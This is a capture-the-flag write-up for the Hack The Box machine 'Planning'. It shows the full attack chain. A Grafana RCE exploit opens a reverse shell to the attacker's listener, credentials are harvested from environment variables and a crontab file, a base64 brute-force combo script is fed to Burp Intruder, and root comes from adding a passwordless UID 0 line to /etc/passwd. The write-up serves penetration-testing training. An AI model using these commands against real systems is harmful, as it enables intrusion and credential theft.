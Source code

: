 ```yaml
---
title: HTB Planning - Writeup
date: 2025-05-22 20:00:00 +0330
categories: [Writeup]
tags: []
description: My writeup of Planning from Hack The Box 

---
```


![](assets/img/planning_info.png)

## - **Recon & Enum**
As always, we start with an Nmap scan:
```shell
$ nmap -sC -sV -oN planning_nmap --min-rate=100 -p- 10.10.11.68
```

```
Nmap scan report for 10.10.11.68
Host is up (0.27s latency).
Not shown: 65468 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigated to the site and there wasn't anything that interesting and Brute forcing directories and sub domains seemed to be going no where. After browsing for a bit, I noticed an spanish comment in the home page, so I wondered and started the brute forcing with spanish wordlists and there it was, `grafana.planning.htb`.

![](assets/img/planning_comment.png)

```shell
$ gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-spanish.txt -u http://planning.htb --append-domain
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-spanish.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: ALFONSO DE JESUS VELEZ RIVAS.planning.htb Status: 400 [Size: 166]
Found: CASA EDITORIAL EL TIEMPO S A.planning.htb Status: 400 [Size: 166]
Found: ENTIDAD ELLEN MUNCH SL - CIF B85206431 - NOMBRE MUNCH ELEONORE MARGARETE ANTOINE - NIF X1107422H.planning.htb Status: 400 [Size: 166]
Found: ENTIDAD MARCO SPINELLI SA - CIF A78310612 - NOMBRE ZARAGOZA GAMERO GEMMA - NIF 07227397S.planning.htb Status: 400 [Size: 166]
Found: ENTIDAD TELEFONICA COMPRAS ELECTRONICAS SL - CIF B85284594 - NOMBRE MOLINA TORRES RAUL - NIF 04570270D.planning.htb Status: 400 [Size: 166]
Found: ENTIDAD GEMAUZA.planning.htb Status: 400 [Size: 166]
Found: FONDO NACIONAL DE AHORRO.planning.htb Status: 400 [Size: 166]
Found: grafana.planning.htb Status: 302 [Size: 29] [--> /login]
```
## - **Foothold**

After looking up Grafana, there was this [exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit) which looked promising. HTB provided a username and a password `admin / 0D5oT70Fq13EvB5r`.

```shell
$ python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip *.*.*.* --reverse-port 9070
```

```
$ nc -nvlp 9070
listening on [any] 9070 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.68] 43084
sh: 0: can't access tty; job control turned off
# python3 -c 'import pty;pty.spawn("/bin/bash")'
sh: 1: python3: not found
# python -v
sh: 2: python: not found
# whoami
root
```

It looks like we are in a container. Ran linpeas and found two possible breakouts, abusing container capabilities and `/proc` mount, Then I discovered `/proc` is read only. It was after revisiting the linpeas output that I saw the environment variables and there they were,  
`GF_SECURITY_ADMIN_PASSWORD=Rio----------ANT!`  
`GF_SECURITY_ADMIN_USER=enzo`

## - **User**
```
enzo@planning:~$ cat user.txt    
1595a------------------ea2d0cb32
```
We cannot run `sudo` as user enzo, so I started looking around and found something inside `/opt/crontabs/crontab.db`, a password `P4ssw0rdS0pRi0T3c`.
```
enzo@planning:/opt/crontabs$ cat crontab.db 

{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

## - **Root**
we have some service running on port `8000`.
```
enzo@planning:~$ ss -tuln
Netid                State                 Recv-Q                Send-Q                               Local Address:Port                                  Peer Address:Port                Process                
udp                  UNCONN                0                     0                                       127.0.0.54:53                                         0.0.0.0:*                                          
udp                  UNCONN                0                     0                                    127.0.0.53%lo:53                                         0.0.0.0:*                                          
tcp                  LISTEN                0                     511                                      127.0.0.1:8000                                       0.0.0.0:*                                          
tcp                  LISTEN                0                     4096                                     127.0.0.1:45875                                      0.0.0.0:*                                          
tcp                  LISTEN                0                     4096                                 127.0.0.53%lo:53                                         0.0.0.0:*                                          
tcp                  LISTEN                0                     4096                                    127.0.0.54:53                                         0.0.0.0:*                                          
tcp                  LISTEN                0                     4096                                     127.0.0.1:3000                                       0.0.0.0:*                                          
tcp                  LISTEN                0                     511                                        0.0.0.0:80                                         0.0.0.0:*                                          
tcp                  LISTEN                0                     70                                       127.0.0.1:33060                                      0.0.0.0:*                                          
tcp                  LISTEN                0                     151                                      127.0.0.1:3306                                       0.0.0.0:*                                          
tcp                  LISTEN                0                     4096                                             *:22                                               *:*                                          
```

so we forward it on our localhost.
```shell
$ ssh enzo@planning.htb -L 8000:localhost:8000
```

![](assets/img/planning_local.png)
![](assets/img/planning_burp.png)
I used `top-usernames-shortlist.txt` from seclists and added enzo to it, and a password file with all the passwords we have so far. The login form uses the following structure `<username>:<password>` and then base64 encodes it, so I wrote a python script to provide me the structure in a txt file so then we can feed it to Burp intruder.

```python
#!/bin/python3
import base64

with open('usernames.txt') as f:
        usr=f.read().split('\n')[:-1]
with open('passwords.txt') as f:
        pss=f.read().split('\n')[:-1]

for i in usr:
        for j in pss:
                tmp=base64.b64encode(bytes(f"{i}:{j}",'utf-8'))
                with open("combine.txt","a") as f:
                        f.write(tmp.decode('utf-8')+'\n')
                        
```
![](assets/img/planning_intruder_combine.png)

And here we go, got the combination!

![](assets/img/planning_intruder.png)

```
$ echo cm9vdDpQNHNzdzByZFMwcFJpMFQzYw | base64 -d
root:P4ssw0rdS0pRi0T3c
```

![](assets/img/planning_crontabui.png)

After logging in, we see a crontab ui which runs commands and scripts as superuser. I made `/etc/passwd` writable and added the following line to it.
```
my_root::0:0:root:/root:/bin/bash
```
And now we can switch user to `my_root` and get root.txt.
```
enzo@planning:~$ su my_root
my_root@planning:/home/enzo# cd
my_root@planning:~# ls
root.txt  scripts
my_root@planning:~# cat root.txt
891956a------------------815b733
```

Also don't forget to return `/etc/passwd` permissions to default and remove the `my_root` user from it.
```
my_root@planning:~# chmod 644 /etc/passwd
my_root@planning:~# ls -la /etc/passwd
-rw-r--r-- 1 my_root root 2031 Jul 21 12:22 /etc/passwd
```


![](assets/img/planning_congrats.png)

Done and Dusted!  
and thanks for reading.